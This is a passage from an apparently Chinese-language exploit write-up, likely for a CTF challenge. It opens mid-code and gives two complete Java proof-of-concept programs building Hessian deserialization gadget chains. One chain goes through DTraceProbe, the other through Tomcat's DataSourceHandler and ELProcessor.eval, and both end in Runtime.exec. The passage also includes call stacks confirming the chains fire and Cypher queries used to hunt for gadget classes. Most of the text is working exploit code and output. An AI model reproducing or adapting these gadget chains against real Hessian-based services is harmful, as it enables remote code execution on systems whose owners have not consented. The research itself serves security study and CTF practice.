import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.HashSet;
import java.util.LinkedHashMap;
import java.util.TreeMap;

public class Poc233 {

    public static void main(String[] args) throws Exception {
        String cmd = "open -a Calculator";
        String script = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance()" +
                ".getEngineByName(\"js\").eval(\"java.lang.Runtime.getRuntime().exec('" + cmd + "')\")";

        javax.el.ELProcessor elProcessor = new javax.el.ELProcessor();
        Method evalMethod = elProcessor.getClass().getMethod("eval", String.class);

        Field nameField = Method.class.getDeclaredField("name");
        nameField.setAccessible(true);
        nameField.set(evalMethod, "compareTo");

        Class<?> dtProbeClazz = Class.forName("sun.tracing.dtrace.DTraceProbe");
        ProbeSkeleton dtProbe = (ProbeSkeleton) createInstanceWithoutConstructor(dtProbeClazz);

        setFieldValue(dtProbe, "proxy", elProcessor);
        setFieldValue(dtProbe, "declared_method", evalMethod);
        setFieldValue(dtProbe, "implementing_method", evalMethod);
        setFieldValue(dtProbe, "parameters", new Class[]{String.class});

        Class<?> providerClass = Class.forName("sun.tracing.MultiplexProvider");
        Constructor<?> providerCons = providerClass.getDeclaredConstructor(Class.class, java.util.Set.class);
        providerCons.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) providerCons.newInstance(Comparable.class, new HashSet<>());

        setFieldValue(invocationHandler, "active", true);
        setFieldValue(invocationHandler, "providerType", File.class);

        LinkedHashMap<Method, ProbeSkeleton> probes = new LinkedHashMap<>();
        Method methodRef = File.class.getMethod("compareTo", File.class);
        probes.put(methodRef, dtProbe);

        setFieldValue(invocationHandler, "probes", probes);

        CustomProxy objCompareTo = new CustomProxy(invocationHandler, methodRef);

        TreeMap<Object, Object> treeMap = triggerTreeMap(objCompareTo, script);
        Object[] wrapper = new Object[]{elProcessor, methodRef, treeMap};

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        output.getSerializerFactory().setAllowNonSerializable(true);
        output.writeObject(wrapper);
        output.flush();

        byte[] data = baos.toByteArray();
        try (FileOutputStream fos = new FileOutputStream("payload.bin")) {
            fos.write(data);
        }

        Hessian2Input input = new Hessian2Input(new ByteArrayInputStream(data));
        input.getSerializerFactory().setAllowNonSerializable(true);
        try {
            input.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static <T> T createInstanceWithoutConstructor(Class<T> clazz) throws Exception {
        ReflectionFactory rf = ReflectionFactory.getReflectionFactory();
        Constructor<?> objDef = Object.class.getDeclaredConstructor();
        Constructor<?> intConstr = rf.newConstructorForSerialization(clazz, objDef);
        return clazz.cast(intConstr.newInstance());
    }

    public static TreeMap<Object, Object> triggerTreeMap(Object proxy, String script) throws Exception {
        TreeMap<Object, Object> treeMap = new TreeMap<>();
        setFieldValue(treeMap, "size", 2);
        Class<?> entryC = Class.forName("java.util.TreeMap$Entry");
        Constructor<?> cons = entryC.getDeclaredConstructor(Object.class, Object.class, entryC);
        cons.setAccessible(true);
        Object root = cons.newInstance(proxy, "v1", null);
        Object left = cons.newInstance(script, "v2", root);
        setFieldValue(root, "left", left);
        setFieldValue(treeMap, "root", root);
        return treeMap;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = null;
        Class<?> clazz = obj.getClass();
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        if (field != null) {
            field.setAccessible(true);
            field.set(obj, value);
        }
    }
}
```



调用栈如下

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at sun.tracing.dtrace.DTraceProbe.uncheckedTrigger(DTraceProbe.java:58)
at sun.tracing.ProviderSkeleton.triggerProbe(ProviderSkeleton.java:269)
at sun.tracing.ProviderSkeleton.invoke(ProviderSkeleton.java:178)
at org.example.labyrinth.model.CustomProxy.compareTo(CustomProxy.java:29)
at java.util.TreeMap.put(TreeMap.java:568)
at com.alibaba.com.caucho.hessian.io.MapDeserializer.doReadMap(MapDeserializer.java:143)
at com.alibaba.com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:124)
at com.alibaba.com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:96)
at com.alibaba.com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:621)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2851)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2419)
at com.alibaba.com.caucho.hessian.io.BasicDeserializer.readLengthList(BasicDeserializer.java:599)
at com.alibaba.com.caucho.hessian.io.AbstractDeserializer.readLengthList(AbstractDeserializer.java:170)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2813)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2419)
at org.example.Poc233.main(Poc233.java:76)
```

还有一种思路是利用`DataSourceHandler#invoke`，首先找出合适的 invokeHandler

```java
MATCH (m_reflect:Method {NAME: "invoke", CLASSNAME: "java.lang.reflect.Method"})
MATCH (m_caller:Method)-[:CALL]->(m_reflect)
MATCH (c_handler:Class)-[:HAS]->(m_caller)
WHERE (c_handler)-[:INTERFACE|EXTENDS*..3]->(:Class {NAME: "java.lang.reflect.InvocationHandler"})
RETURN c_handler.NAME, m_caller.NAME, m_caller.SIGNATURE
```

这样子找出来有 29 个，需要进一步缩小范围，找出构造函数参数少的

```java
MATCH (base:Class {NAME: "java.lang.reflect.InvocationHandler"})
MATCH (c_handler:Class)-[:INTERFACE|EXTENDS*..3]->(base)
MATCH (c_handler)-[:HAS]->(m_invoke:Method {NAME: "invoke"})
MATCH (m_reflect:Method {NAME: "invoke", CLASSNAME: "java.lang.reflect.Method"})
MATCH (m_invoke)-[:CALL]->(m_reflect)

MATCH (c_handler)-[:HAS]->(m_init:Method {NAME: "<init>"})
WITH c_handler, m_invoke, min(m_init.PARAMETER_SIZE) as minParams
WHERE minParams <= 1

RETURN c_handler.NAME as ValidHandler, minParams, m_invoke.SIGNATURE
```

找出来 10 个，接着看可以到`ELProcessor#eval`的

```java
MATCH (base:Class {NAME: "java.lang.reflect.InvocationHandler"})
MATCH (c_handler:Class)-[:INTERFACE|EXTENDS*..3]->(base)
MATCH (c_handler)-[:HAS]->(m_invoke:Method {NAME: "invoke"})
MATCH (m_reflect:Method {NAME: "invoke", CLASSNAME: "java.lang.reflect.Method"})
MATCH (m_invoke)-[:CALL]->(m_reflect)
MATCH (c_handler)-[:HAS]->(m_init:Method {NAME: "<init>"})
WITH c_handler, m_invoke, m_reflect, min(m_init.PARAMETER_SIZE) as minParams
WHERE minParams <= 1

MATCH (m_eval:Method {NAME: "eval", CLASSNAME: "javax.el.ELProcessor"})

OPTIONAL MATCH p_to_sink = (m_reflect)-[:CALL*..1]->(m_eval)
OPTIONAL MATCH p_from_handler = (m_invoke)-[:CALL*..1]->(m_reflect)

RETURN c_handler.NAME as Handler, p_from_handler, p_to_sink
```

也还是十个，前半段是通的

```java
MATCH (m_start:Method {NAME: "readObject", CLASSNAME: "java.util.TreeMap"})
MATCH (m_proxy:Method {NAME: "compareTo", CLASSNAME: "org.example.labyrinth.model.CustomProxy"})
MATCH p = shortestPath((m_start)-[:CALL|ALIAS|HAS*..10]->(m_proxy))
RETURN p
```



静态分析就只能到这里了，我发现这个线是连不起来的🤗，也有可能是我太菜了

```java
package org.example;

import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import org.example.labyrinth.model.CustomProxy;
import sun.reflect.ReflectionFactory;

import java.io.*;
import java.lang.reflect.*;
import java.util.TreeMap;

public class Poc111 {

    public static void main(String[] args) throws Exception {
        String cmd = "open -a Calculator";
        String script = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance()" +
                ".getEngineByName(\"js\").eval(\"java.lang.Runtime.getRuntime().exec('" + cmd + "')\")";

        javax.el.ELProcessor elProcessor = new javax.el.ELProcessor();
        Method evalMethod = elProcessor.getClass().getMethod("eval", String.class);

        Field nameField = Method.class.getDeclaredField("name");
        nameField.setAccessible(true);
        nameField.set(evalMethod, "compareTo");

        Class<?> handlerClazz = Class.forName("org.apache.naming.factory.DataSourceLinkFactory$DataSourceHandler");
        InvocationHandler invocationHandler = (InvocationHandler) createInstanceWithoutConstructor(handlerClazz);

        Field f = sun.misc.Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        sun.misc.Unsafe unsafe = (sun.misc.Unsafe) f.get(null);

        long dsOffset = unsafe.objectFieldOffset(handlerClazz.getDeclaredField("ds"));
        unsafe.putObject(invocationHandler, dsOffset, elProcessor);
        setFieldValue(invocationHandler, "getConnection", evalMethod);

        CustomProxy objCompareTo = new CustomProxy(invocationHandler, evalMethod);
        TreeMap<Object, Object> treeMap = triggerTreeMap(objCompareTo, script);
        Object[] wrapper = new Object[]{elProcessor, treeMap};

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        output.getSerializerFactory().setAllowNonSerializable(true);
        output.writeObject(wrapper);
        output.flush();

        byte[] data = baos.toByteArray();
        try (FileOutputStream fos = new FileOutputStream("payload.bin")) {
            fos.write(data);
        }

        Hessian2Input input = new Hessian2Input(new ByteArrayInputStream(data));
        input.getSerializerFactory().setAllowNonSerializable(true);
        try {
            input.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static <T> T createInstanceWithoutConstructor(Class<T> clazz) throws Exception {
        ReflectionFactory rf = ReflectionFactory.getReflectionFactory();
        Constructor<?> objDef = Object.class.getDeclaredConstructor();
        Constructor<?> intConstr = rf.newConstructorForSerialization(clazz, objDef);
        return clazz.cast(intConstr.newInstance());
    }

    public static TreeMap<Object, Object> triggerTreeMap(Object proxy, String script) throws Exception {
        TreeMap<Object, Object> treeMap = new TreeMap<>();
        setFieldValue(treeMap, "size", 2);
        Class<?> entryC = Class.forName("java.util.TreeMap$Entry");
        Constructor<?> cons = entryC.getDeclaredConstructor(Object.class, Object.class, entryC);
        cons.setAccessible(true);
        Object root = cons.newInstance(proxy, "v1", null);
        Object left = cons.newInstance(script, "v2", root);
        setFieldValue(root, "left", left);
        setFieldValue(treeMap, "root", root);
        return treeMap;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = null;
        Class<?> clazz = obj.getClass();
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        if (field != null) {
            field.setAccessible(true);
            field.set(obj, value);
        }
    }
}
```



调用栈

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.naming.factory.DataSourceLinkFactory$DataSourceHandler.invoke(DataSourceLinkFactory.java:124)
at org.example.labyrinth.model.CustomProxy.compareTo(CustomProxy.java:29)
at java.util.TreeMap.put(TreeMap.java:568)
at com.alibaba.com.caucho.hessian.io.MapDeserializer.doReadMap(MapDeserializer.java:143)
at com.alibaba.com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:124)
at com.alibaba.com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:96)
at com.alibaba.com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:621)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2851)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2419)
at com.alibaba.com.caucho.hessian.io.BasicDeserializer.readLengthList(BasicDeserializer.java:599)
at com.alibaba.com.caucho.hessian.io.AbstractDeserializer.readLengthList(AbstractDeserializer.java:170)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2813)
at com.alibaba.com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2419)
at org.example.Poc111.main(Poc111.java:55)
```
